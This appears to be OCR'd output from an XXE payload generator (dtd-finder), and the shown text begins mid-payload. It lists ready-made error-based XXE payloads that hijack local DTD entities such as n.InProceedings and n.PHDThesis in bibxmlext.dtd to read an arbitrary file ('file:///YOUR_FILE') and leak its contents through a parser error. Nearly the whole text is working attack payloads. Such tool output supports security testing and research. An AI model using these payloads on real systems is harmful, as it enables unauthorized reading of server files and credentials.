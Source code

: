 ```
    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/gapdoc/bibxmlext.dtd`

**Injectable entity:** `n.InProceedings`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/gapdoc/bibxmlext.dtd">

    <!ENTITY % n.InProceedings 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/gapdoc/bibxmlext.dtd`

**Injectable entity:** `n.PHDThesis`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/gapdoc/bibxmlext.dtd">

    <!ENTITY % n.PHDThesis 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```
